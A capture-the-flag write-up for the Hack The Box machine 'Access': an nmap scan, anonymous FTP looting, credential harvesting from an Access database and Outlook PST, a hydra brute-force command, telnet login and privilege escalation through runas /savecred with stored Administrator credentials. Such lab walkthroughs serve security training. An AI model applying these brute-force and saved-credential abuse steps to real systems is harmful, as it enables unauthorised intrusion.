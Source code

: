 # Hackthebox - Access

- Windows

![Access](../.res/HTB-Access.png)

- [Box on HTB](https://app.hackthebox.com/machines/156)

## Nmap

```
┌──(root💀kali)-[~]
└─# nmap -T4 -A -p- 10.10.10.98
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-08 15:34 EDT
Nmap scan report for 10.10.10.98
Host is up (0.025s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 425 Cannot open data connection.
23/tcp open  telnet?
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-title: MegaCorp
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: phone|general purpose|specialized
Running (JUST GUESSING): Microsoft Windows Phone|2008|7|8.1|Vista|2012 (92%)
OS CPE: cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 cpe:/o:microsoft:windows_server_2012
Aggressive OS guesses: Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows 7 or Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 or Windows 8.1 (91%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (91%), Microsoft Windows 7 Professional or Windows 8 (91%), Microsoft Windows Vista SP0 or SP1, Windows Server 2008 SP1, or Windows 7 (91%), Microsoft Windows Vista SP2 (91%), Microsoft Windows Vista SP2, Windows 7 SP1, or Windows Server 2008 (90%), Microsoft Windows 8.1 Update 1 (90%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 23/tcp)
HOP RTT      ADDRESS
1   28.67 ms 10.10.14.1
2   28.88 ms 10.10.10.98

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 275.90 seconds
```

## Initial foothold

### FTP

- We know with nmap that anonymous login is allowed. Let's have a look  
![image](https://user-images.githubusercontent.com/96747355/162515557-fc8e6499-c11e-4830-9100-1358fe6ae36b.png)  
- We take all the files in our attacking machine using `get`
- We have an mdb file which is a microsoft access database file, we can open it using this [website](https://www.mdbopener.com/) we also could have used `mdb-sql`
  - Theres a lot of tables however only some of them have rows
  - The one called USERINFO contains name and password, let's get the csv version of this table 
  - This definitely looks like a db for hr management
  - Another one called auth_user also has password so we take the csv as well
  - Using `awk we have a better view of our users in USERINFO even though I think the most useful file will be the other, let's still keep this aside all cleaned up with awk  
![image](https://user-images.githubusercontent.com/96747355/162520337-ed31f983-f9ad-4bf7-98df-e9d241b9671b.png)  
  - I put it in a file called userinfoclean `cat USERINFO.csv | awk -F "," '{print $25, $46, $86}' > userinfoclean`
  - For the other file `auth_user.csv` let's keep the usernames in a file called users `cat auth_user.csv | awk -F "," '{print $2}' > users` , I cleaned it a little removing the title of column and the quotes
  - And let's do the same for the pass except that we do not need admin 2 times in it so we remove also one, so it should look like this  
  ![image](https://user-images.githubusercontent.com/96747355/162522690-57cd33cb-c155-4f54-9fb4-704c14b81757.png)  

### Telnet

- We have a telnet port open
- if we use `admin` as login we get a mention that the user does not exist
- If we use `engineer` as login we then get prompt for the password (which means our user is valid), and if we type `admin` we have the handle is invalide but if we type `access4u@security` we get access denied, which means that our user pass combinaison is correct
  - Let's keep it aside `engineer` `access4u@security`

### Port 80

- We land on this page  
![image](https://user-images.githubusercontent.com/96747355/162525231-262bc255-b79d-4565-92e8-9bc81e14a132.png)  
- Let's run gobuster here (we do not get anything)

### FTP

- Let's try to bruteforce ftp with the discovered users `hydra -L users -P pass 10.10.10.98 -t 4 ftp`
- We do not get anything

### Zip file

- Let's try to unzip the password protected zip we found, as it is aes encrypted `unzip` wont work but `7z x` will work:  
![image](https://user-images.githubusercontent.com/96747355/162529730-15ae60e1-d8bd-4f41-a542-e4c7b97d5a25.png)  
- We get an Outlook email folder: 
```
┌──(root💀kali)-[~/Documents/hackthebox/access]
└─# file Access\ Control.pst 
Access Control.pst: Microsoft Outlook email folder (>=2003)
```
- We can read this file on linux using `readpst Access\ Control.pst` (`apt install readpst` to install it), here is what we get in the email, another Password!!

```
Hi there,

The password for the “security” account has been changed to 4Cc3ssC0ntr0ller.  Please ensure this is passed on to your engineers.

Regards,

John
```
- Let's add these to our files

### Telnet again

- With the new user discovered we are able to connect to the telnet port  
![image](https://user-images.githubusercontent.com/96747355/162533460-4fcc793e-48b7-4edc-a410-fa6115e69af7.png)  
- We can grab the user flag on the desktop


## Privilege escalation

```
C:\Users\security\Desktop>cmdkey /list

Currently stored credentials:

    Target: Domain:interactive=ACCESS\Administrator
                                                       Type: Domain Password
    User: ACCESS\Administrator
```
- We are going to be able to run commands as administrator (just like sudo in linux)
- Let's grab the root flag like this: `C:\Windows\System32\runas.exe /user:ACCESS\Administrator /savecred "C:\Windows\System32\cmd.exe /c TYPE C:\Users\Administrator\Desktop\root.txt > C:\Users\security\Desktop\root.txt"` and then it will be in our current user's desktop
- Have a look at [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#eop---runas) to see how else we could use runas
